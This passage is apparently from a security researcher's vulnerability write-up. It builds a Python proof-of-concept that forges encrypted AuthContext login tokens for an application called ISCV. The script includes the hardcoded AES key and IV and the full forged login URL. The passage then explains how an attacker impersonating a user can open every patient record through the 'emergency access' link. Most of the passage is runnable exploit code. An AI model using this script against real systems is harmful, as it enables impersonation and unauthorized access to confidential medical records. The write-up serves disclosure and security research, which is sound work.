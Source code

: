 Given this information, let's develop a proof-of-concept script to forge our own `AuthContext` values.  I'll be doing this in Python, as this seems to be lingua franca for exploit PoC code.  To start, let's quickly get the plaintext constructed:

```python
domain = args.domain.upper()
username = args.username.upper()
timestamp = datetime.datetime.now()
timestamp_formatted = timestamp \
  .strftime("%m/%d/%Y %l:%M:%S %p") \
  .replace("  ", " ")
payload = f"{domain}\\{username};{timestamp_formatted}"
```

Next, we need encode the message as UTF16-LE, pad it to a 16 byte interval using PKCS7, and apply AES-128 encryption.  The key and initialization vector for CBC mode are derived from the value within the ISCV configuration file.  Revealing the key and derivation is not necessary.  I have precomputed the AES parameters, as they do not change.

```python
plaintext = payload.encode(encoding="utf-16le")
key = bytes([
  0x54, 0xca, 0x19, 0xea, 0xc6, 0xf9, 0xdf, 0x9b,
  0xc3, 0xc4, 0x9b, 0xde, 0x8f, 0xd3, 0x58, 0xcc
])
iv = bytes([
  0xc6, 0xf9, 0xdf, 0x9b, 0x92, 0x04, 0x69, 0x0b,
  0xea, 0xe7, 0x60, 0x33, 0x5c, 0x3e, 0x7b, 0x6d
])
encryptor = AES.new(key, AES.MODE_CBC, IV=iv)
ciphertext = encryptor.encrypt(pad(plaintext, 16, style="pkcs7"))
```

Lastly, we need to embed this token within the GET parameters of a request to `/STS/Forms/Login.aspx`.  We'll prompt for the hostname, as it is also used to construct the value of `wtrealm`.

```python
server = args.server.upper()
authcontext = base64.b64encode(ciphertext)
params = urllib.parse.urlencode((
  ("AuthContext", authcontext),
  ("wctx", "rm=0&id=passive&ru=%2fISCV%2f"),
  ("wa", "wsignin1.0"),
  ("wct", timestamp.strftime("%Y-%m-%dT%R:%SZ")),
  ("wtrealm", f"https://{server}/ISCV/")
))
url = f"https://{server}/STS/Forms/Login.aspx?{params}"
print(f"Launching {url} in default browser...")
webbrowser.open(url, new=0, autoraise=True)
```

Once the link is opened, the remaining three "phases" go off and setup our session before finally logging us into the application.  Once we are in the application, ISCV helpfully provides an "emergency access" link that can be pressed to access all patient records.  The attacker is given a stern warning that this action will be logged, but, since the attacker is likely impersonating someone innocent, this doesn't prevent us from (ab)using this functionality to gain complete access to all records.
